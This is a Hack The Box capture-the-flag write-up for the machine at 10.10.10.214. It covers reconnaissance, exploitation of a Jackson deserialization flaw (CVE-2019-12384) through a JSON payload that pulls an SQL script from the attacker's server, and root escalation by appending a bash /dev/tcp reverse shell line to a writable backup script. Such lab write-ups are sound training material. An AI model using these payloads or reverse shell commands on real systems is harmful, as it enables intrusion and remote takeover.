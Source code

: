 # Box 



![image-20210315111852498](img/image-20210315111852498.png)

https://www.hackthebox.eu/home/machines/profile/286

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.214 10.10.10.214
```

![image-20210315111920719](img/image-20210315111920719.png)

So let's check out the website : 

![image-20210315155353338](img/image-20210315155353338.png)

It seems that we have another option in beta which is "Validate".  If it's in beta, maybe there are vulnerabilities. 

Let's try a simple payload  `\\`

![image-20210315155503053](img/image-20210315155503053.png)

Well, we have the error output and it's using jackson.

When you search for jackson exploit you find this link https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json which contains a lot of different exploits.

## Exploitation

None of them worked so I tried to search for another one and I found this one : 

https://github.com/jas502n/CVE-2019-12384



At first I just modified the `inject.sql` and replaced the    the current command with`curl http://10.10.14.17:4444/` 

for the exploit to work you have to setup a python server where your inject.sql is located. 

then replace the input in the github repo by your own server like this : 

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.17:8000/inject.sql'"}]
```

Paste it into your browser.

and it worked.



![image-20210315155827532](img/image-20210315155827532.png)

![image-20210315155818115](img/image-20210315155818115.png)

Now we just have to modify our `curl` request by a RCE to trigger our reverse_shell ! Let's do that : 

![image-20210315160236319](img/image-20210315160236319.png)

Let's paste our payload again ! 

We got our shell.

![image-20210315160434354](img/image-20210315160434354.png)

## Post-Exploitation

### User

We directly land on the user. We got our flag.

![image-20210315160517915](img/image-20210315160517915.png)

### Root

Well, this was the easiest part. 

I found a script that we own in `/bin` called `timer_backup.sh`

![image-20210315173343085](img/image-20210315173343085.png)

Since it has to copy to the root folder I think it is called regularly. Let's add a reverse_shell to this script :

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1'
```

It worked.

![image-20210315173518978](img/image-20210315173518978.png)

Rooted.